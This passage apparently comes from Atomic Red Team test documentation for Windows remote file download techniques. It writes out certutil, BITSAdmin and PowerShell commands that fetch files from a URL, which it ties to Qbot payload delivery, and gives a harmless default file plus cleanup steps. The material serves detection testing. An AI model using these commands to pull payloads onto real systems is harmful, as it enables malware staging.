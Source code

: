 #### Attack Commands: Run with `powershell`!

```powershell
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f #{remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination #{local_path} }
```

#### Cleanup Commands:

```powershell
Remove-Item "certutil-$(Get-Date -format yyyy_MM_dd)" -Force -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #9 - Windows - BITSAdmin BITS Download

This test uses BITSAdmin.exe to schedule a BITS job for the download of a file.
This technique is used by Qbot malware to download payloads.

**Supported Platforms:** Windows

**auto_generated_guid:** a1921cd3-9a2d-47d5-a891-f1d0f2a7a31b

#### Inputs:

| Name          | Description                  | Type   | Default Value                                                                    |
| ------------- | ---------------------------- | ------ | -------------------------------------------------------------------------------- |
| bits_job_name | Name of the created BITS job | string | qcxjb7                                                                           |
| local_path    | Local path to place file     | path   | %temp%&#92;Atomic-license.txt                                                    |
| remote_file   | URL of file to copy          | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\System32\bitsadmin.exe /transfer #{bits_job_name} /Priority HIGH #{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #10 - Windows - PowerShell Download

This test uses PowerShell to download a payload.
This technique is used by multiple adversaries and malware families.

**Supported Platforms:** Windows
